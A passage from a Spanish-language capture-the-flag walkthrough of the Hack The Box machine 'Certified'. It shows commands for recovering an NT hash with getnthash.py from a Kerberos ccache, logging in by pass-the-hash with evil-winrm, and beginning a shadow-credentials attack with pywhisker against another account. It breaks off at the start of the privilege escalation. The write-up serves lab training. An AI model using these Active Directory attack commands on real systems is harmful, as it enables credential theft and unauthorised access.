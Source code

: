 Nos sale que tenemos que setear la variable de entorno `KRB5CCNAME`:

![image](../zimages/Pasted_image_20250323231123.png)

Esto lo igualamos al archivo .ccache que nos exportó el script `gettgtpkinit.py`:

```bash
KRB5CCNAME=management_svc.ccache python3 getnthash.py -key 3af4caa471b8091f151569f4dc43e3a0c9f5b49acc771f7f9acdb6ff5d1424b2 -dc-ip 10.10.11.41 certified.htb/management_svc
```

Ahora si, nos da el NTHash:

![image](../zimages/Pasted_image_20250323231143.png)

El cual usamos para acceder como el usuario management_svc a la máquina:

```bash
evil-winrm -i 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

![image](../zimages/Pasted_image_20250323231237.png)

Si nos vamos a `C:\Users\management_svc\Desktop`, obtenemos la flag de user.


# Administrator Flag (PrivEsc)

Como vimos en BloodHound, nos queda un usuario al que podemos ascender, el cual, si hacemos click en "GenericAll", nos da las instrucciones. Lo primero es volver a utilizar `pywhisker`:

```bash
pywhisker -d "certified.htb" -u "management_svc" -H "a091c1832bcdd4677c28b5a6a1295584" --target "ca_operator" --action "add"
```

